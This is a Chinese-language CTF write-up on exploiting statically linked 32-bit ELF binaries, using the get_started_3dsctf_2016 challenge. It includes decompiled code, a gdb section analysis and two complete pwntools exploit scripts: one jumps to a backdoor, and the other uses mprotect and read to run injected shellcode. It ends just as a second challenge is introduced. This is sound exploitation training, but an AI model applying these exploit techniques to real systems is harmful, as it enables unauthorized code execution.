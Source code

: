 # 静态链接程序利用

一般情况下，静态链接的程序很少出现，但是也有一些。这类 elf 的漏洞利用，主要还是依靠程序本身和用户输入。

程序本身的利用就是预留的后门函数（system）和字符串（/bin/sh）。如果有这些预留，题目难度应该不大，只要设法控制程序流到后门上。

如果没有预留的后门，很有可能是需要依靠用户输入内容结合程序本身 gadget 去构造调用，也就是手工构造 onegadget 。

正常情况下，我们会去 libc 里面找利用的函数和字符串，例如：system。但 静态链接不会到 libc 找函数，静态链接程序运行时要用到的全部东西都已经包含在 ELF 文件里，所以攻击者能利用的只有 ELF 文件的东西。ret2libc 等等攻击方法就与静态链接程序无缘。

## 实验一：get_started_3dsctf_2016

这是一条 32 位静态链接的栈溢出题目，题目在 BUU 上有实验环境。本地和远程是采用两种解决方法。

本地就是可以利用预留的后门解决，远程利用需要结合 ELF 里的一个函数——mprotect 和 用户输入内容。

### 分析

#### 保护情况

32 位只开启了 NX 

    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

#### 编译情况

这是一条静态链接的题，也就是用不到 libc 。

```shell
$ file get_started_3dsctf_2016 
get_started_3dsctf_2016: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, not stripped
```

#### 漏洞函数

main 函数里面调用了 gets 进行读取，没有对长度限制，可造成栈溢出：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+4h] [ebp-38h]

  printf("Qual a palavrinha magica? ", v4);
  gets(&v4);
  return 0;
}
```

题目预留了后门函数 get_flag ，有两个判断传参的时候传进去就行了：

```c
void __cdecl get_flag(int a1, int a2)
{
  int v2; // eax
  int v3; // esi
  unsigned __int8 v4; // al
  int v5; // ecx
  unsigned __int8 v6; // al

  if ( a1 == 0x308CD64F && a2 == 0x195719D1 )
  {
    v2 = fopen("flag.txt", "rt");
    v3 = v2;
    v4 = getc(v2);
    if ( v4 != 0xFF )
    {
      v5 = (char)v4;
      do
      {
        putchar(v5);
        v6 = getc(v3);
        v5 = (char)v6;
      }
      while ( v6 != 255 );
    }
    fclose(v3);
  }
}
```

到这里的基本思路是：栈溢出控制 eip 跳转后门，也就得到了[仅栈溢出的 exp](# 仅栈溢出)，远程无法 getshell 。

### 思路

前面分析说了嘛，无法通过栈溢出跳转后门。转换一下思路，溢出空间不限。将 shellcode 写到非栈上的地方，然后用 mprotect 给内存段加上一个执行权限，在控制程序流跳转到上面。

mprotect 参数如下：

```
int mprotect(void *addr, size_t len, int prot);
addr 内存启始地址
len  修改内存的长度
prot 内存的权限
```

prot 的值为 7（rwx），重点是赋予权限的地址，要找一个有读写权限的地址，然后再给予执行权限。这里 ida 查出来的内存段权限与实际有出入，ida 里面 bss 段是有读写权限的：

![](https://mrskye.cn-gd.ufileos.com/img/2020-06-05-nNNhQnmDUVUlp9fx.png)

实际试了一下，报错修改不了。然后用 gdb 查看（指令：maintenance info sections）：

```shell
pwndbg> maintenance info sections
Exec file:
    `/home/skye/buu/get_started_3dsctf_2016/get_started_3dsctf_2016', file type elf32-i386.
 [0]     0x80480f4->0x8048114 at 0x000000f4: .note.ABI-tag ALLOC LOAD READONLY DATA HAS_CONTENTS
 [1]     0x8048114->0x804818c at 0x00000114: .rel.plt ALLOC LOAD READONLY DATA HAS_CONTENTS
 [2]     0x804818c->0x80481af at 0x0000018c: .init ALLOC LOAD READONLY CODE HAS_CONTENTS
……
 [21]     0x80eb000->0x80eb048 at 0x000a2000: .got.plt ALLOC LOAD DATA HAS_CONTENTS
 [22]     0x80eb060->0x80ebf80 at 0x000a2060: .data ALLOC LOAD DATA HAS_CONTENTS
 [23]     0x80ebf80->0x80ecd8c at 0x000a2f80: .bss ALLOC
……
```

最后选定的将 shellcode 存放在 .got.plt 。所以需要构造出：

```python
'''
int mprotect(.got.plt地址, 够放shellcode的大小, 7);
'''
payload += p32(mprotect_addr) + p32(got_plt) + p32(0x200) + p32(0x7)
```

然后就是就是构造 read 输入 shellcode 到 .got.plt 上面，接着跳转到 .got.plt 即可：

```python
payload += p32(read_addr) + p32(got_plt) + p32(0) + p32(got_plt) + p32(0x200)
```

实际运行后会卡在 read 函数，通过调试对比正常 read 函数，是几个寄存器的问题。在 mprotect 运行完之后，需要 pop 存放 3 个参数的寄存器，用 ROPgadget 找就行了。

read 也有 3 个参数，但是实际测试不需要 popgadget 处理，直接可以跳转就省略。

整体 payload 构造：

```python
payload = 'a'*0x38
payload += p32(mprotect_addr) + p32(pop3_ret) + p32(got_plt) + p32(0x200) + p32(0x7)
payload += p32(read_addr) + p32(got_plt) + p32(0) + p32(got_plt) + p32(0x200)
```

### exp

#### 仅栈溢出

```python
from pwn import *

context.log_level = 'debug'
p = process("./get_started_3dsctf_2016")
#p = remote("node3.buuoj.cn",26536)
elf = ELF("./get_started_3dsctf_2016")

get_flag = elf.sym['get_flag']

payload = 'a'*0x38# + 'b'*0x4
payload += p32(get_flag)+p32(0xdeadbeef)+p32(0x308CD64F)+p32(0x195719D1)

#p.recvuntil("Qual")
gdb.attach(p)
p.sendline(payload)

p.interactive()
```

#### 栈溢出+mprotect

这里获取静态程序的函数地址和动态链接的有区别：

```python
elf = ELF("./get_started_3dsctf_2016")
# 若是动态链接
puts_plt = elf.plt['read']
# 若是静态链接
puts_plt = elf.sym['read']		# 方法一
puts_plt = elf.symbols['read']	# 方法二
```



```python
from pwn import *

context.log_level = 'debug'
p = process("./get_started_3dsctf_2016")
#p = remote("node3.buuoj.cn",28471)
elf = ELF("./get_started_3dsctf_2016")

pop3_ret = 0x804951D
shellcode = asm(shellcraft.sh(),arch = 'i386', os = 'linux') 

mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']

got_plt = 0x80EB000

payload = 'a'*0x38
payload += p32(mprotect_addr) + p32(pop3_ret) + p32(got_plt) + p32(0x200) + p32(0x7)
payload += p32(read_addr) + p32(got_plt) + p32(0) + p32(got_plt) + p32(0x200)
#payload += p32(got_plt)

gdb.attach(p)
p.sendline(payload)
p.sendline(shellcode)

p.interactive()
```

## 实验二：2017 湖湘杯 pwn300

32 位静态链接题目，需要结合用户输入的内容，然后调用 ELF 自身的 gadget 构建系统调用。